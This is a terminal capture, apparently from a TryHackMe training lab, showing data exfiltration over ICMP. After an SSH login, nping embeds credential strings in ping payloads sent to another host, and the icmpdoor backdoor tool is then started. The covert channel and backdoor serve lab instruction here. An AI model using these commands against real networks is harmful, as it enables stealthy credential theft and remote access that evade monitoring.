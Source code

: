 ```
ECDSA key fingerprint is SHA256:odWQXWoPbs946nSO3McmlJvWqZ6/byyYUWBZrxbw2Ho.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'icmp.thm.com,192.168.0.121' (ECDSA) to the list of known hosts.
thm@icmp.thm.com's password: 
Welcome to Ubuntu 20.04.4 LTS (GNU/Linux 5.4.0-1029-aws x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

thm@icmp-host:~$ sudo nping --icmp -c 1 10.10.99.235 --data-string "admin:password"
[sudo] password for thm: 

Starting Nping 0.7.80 ( https://nmap.org/nping ) at 2022-09-12 19:52 EEST
SENT (0.0337s) ICMP [192.168.0.121 > 10.10.99.235 Echo request (type=8/code=0) id=30948 seq=1] IP [ttl=64 id=47074 iplen=42 ]
RCVD (0.0342s) ICMP [10.10.99.235 > 192.168.0.121 Echo reply (type=0/code=0) id=30948 seq=1] IP [ttl=63 id=47101 iplen=42 ]
 
Max rtt: 0.369ms | Min rtt: 0.369ms | Avg rtt: 0.369ms
Raw packets sent: 1 (42B) | Rcvd: 1 (42B) | Lost: 0 (0.00%)
Nping done: 1 IP address pinged in 1.06 seconds
thm@icmp-host:~$ sudo nping --icmp -c 1 10.10.99.235 --data-string "admin2:password2"

Starting Nping 0.7.80 ( https://nmap.org/nping ) at 2022-09-12 19:53 EEST
SENT (0.0312s) ICMP [192.168.0.121 > 10.10.99.235 Echo request (type=8/code=0) id=43536 seq=1] IP [ttl=64 id=13907 iplen=44 ]
RCVD (0.0318s) ICMP [10.10.99.235 > 192.168.0.121 Echo reply (type=0/code=0) id=43536 seq=1] IP [ttl=63 id=52037 iplen=44 ]
 
Max rtt: 0.468ms | Min rtt: 0.468ms | Avg rtt: 0.468ms
Raw packets sent: 1 (44B) | Rcvd: 1 (44B) | Lost: 0 (0.00%)
Nping done: 1 IP address pinged in 1.06 seconds
thm@icmp-host:~$ sudo nping --icmp -c 1 10.10.99.235 --data-string "EOF"

Starting Nping 0.7.80 ( https://nmap.org/nping ) at 2022-09-12 19:53 EEST
SENT (0.0317s) ICMP [192.168.0.121 > 10.10.99.235 Echo request (type=8/code=0) id=42021 seq=1] IP [ttl=64 id=19539 iplen=31 ]
RCVD (0.0323s) ICMP [10.10.99.235 > 192.168.0.121 Echo reply (type=0/code=0) id=42021 seq=1] IP [ttl=63 id=54903 iplen=31 ]
 
Max rtt: 0.433ms | Min rtt: 0.433ms | Avg rtt: 0.433ms
Raw packets sent: 1 (31B) | Rcvd: 1 (31B) | Lost: 0 (0.00%)
Nping done: 1 IP address pinged in 1.06 seconds
thm@icmp-host:~$ sudo icmpdoor -i eth0 -d 192/168.0.133
^Cthm@icmp-host:~$ sudo icmpdoor -i eth0 -d 192.168.0.133


```